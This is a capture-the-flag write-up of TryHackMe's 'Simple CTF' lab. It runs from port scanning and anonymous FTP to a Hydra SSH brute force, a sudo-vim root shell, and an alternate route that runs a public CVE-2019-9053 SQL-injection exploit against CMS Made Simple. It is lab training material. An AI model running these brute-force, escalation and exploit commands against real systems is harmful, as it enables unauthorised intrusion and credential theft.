

# Simple CTF

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Red Team  

## Overview
Beginner level ctf

## Enumeration

### Command Used
```bash
sudo nmap 10.49.164.116 -n -T4 -sC -sV -oN Nmap-Scan
```
### Output
```ansi
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-28 14:09 +0530
Nmap scan report for 10.49.164.116
Host is up (0.0079s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.137.158
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.68 seconds
```
### Analysis

The scan revealed three open services:

- **FTP (Port 21)**  
  Anonymous login is allowed, which may provide access to files or sensitive information.

- **HTTP (Port 80)**  
  The web server hosts a default Apache page. The `robots.txt` file contains disallowed entries, including:
  ```
  /openemr-5_0_1_3
  ```
  This indicates a hidden directory that should be investigated further.

- **SSH (Port 2222)**  
  SSH is running on a non-standard port, which may be used later if valid credentials are obtained.

## FTP Enumeration

### Command Used
```bash
ftp 10.49.164.116
Login : anonymous
```
### Gathering Data
```ansi
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.0001 seconds (1.4981 Mbytes/s)
ftp> exit
```
### Read the File
```ansi
cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```
### Analysis

The message suggests:

- A system user exists with weak credentials
- Password reuse is present
- The password is easily guessable or crackable

The file name (`ForMitch.txt`) indicates that the username is likely `mitch`.

---

### Next Step

Based on this information, an attempt was made to authenticate via SSH using the username `mitch` and common weak passwords.

### Brute Force Attack

A password brute-force attack was performed against the SSH service using Hydra.

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.49.164.116:2222
```

### Result
```ansi
[DATA] attacking ssh://10.49.164.116:2222/
[2222][ssh] host: 10.49.164.116   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
```
## Initial Access

### SSH Login

Using the discovered credentials, access to the system was obtained via SSH:

```bash
ssh mitch@10.49.164.116 -p 2222
```

### Result

Successful login as user `mitch` confirmed initial access to the target system.

## Upgrading Shell to Stable Shell 

### Commands
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg

export TERM=xterm
stty rows 40 columns 120
```

### user Flag
```bash
mitch@Machine:~$ cat user.txt
G00d j0b, keep up!
```
## Privilege Escalation

### Checking Sudo Privileges

```bash
sudo -l
```

### Observation

The user `mitch` is allowed to run `/usr/bin/vim` as root without requiring a password:

```
(root) NOPASSWD: /usr/bin/vim
```

---

### Analysis

Since `vim` allows execution of shell commands, this configuration can be abused to obtain a root shell.

---

### Exploitation

```bash
sudo vim -c ':!/bin/sh'
```
Then Put this !/bin/sh
---

### Result

A root shell was successfully obtained:

```bash
whoami
root
```

---

### Conclusion

Privilege escalation was achieved due to improper sudo configuration, allowing execution of a powerful binary (`vim`) with root privileges.

### Root Flag
```bash
# cat root.txt
W3ll d0n3. You made it!
```

# Second Solution via Web

## Web Enumeration

### Command Used
```bash
sudo gobuster dir -u http://10.49.164.116/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt 
```
### Result
- http://10.49.164.116/simple/



### CVE Disclosed 

simple cms is running on version 2.2.8 and its vulnerable to SQLi CVE-2019-9053

## Download the exploit

### Command Used
```bash
 searchsploit -m php/webapps/46635.py
```

- This is python2 exploit so u must have python2 and rockyou.txt wordlist

### Command To use this exploit 
```bash
 sudo python2 46635.py -u http://10.49.164.116/simple/ --crack -w ../../rockyou.txt
```
### Result 
```ansi
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
The recovered credentials were successfully used to authenticate via SSH:

```bash
ssh mitch@10.49.164.116 -p 2222
```

This provided initial access to the system.

---

### Conclusion

This demonstrates an alternative attack path where vulnerabilities in a web application led to credential disclosure and system compromise.

It highlights the importance of:
- Securing web applications
- Avoiding weak password practices
- Protecting sensitive data such as password hashes

## Learnings

- Anonymous FTP access can expose sensitive information
- Weak password practices lead to easy credential compromise
- Multiple attack vectors may exist for the same target
- Outdated web applications can expose critical vulnerabilities
- Sudo misconfigurations can lead to full system compromise
- Proper enumeration is key to identifying attack paths

# Thanks for Reading | Creator Zeref0xD
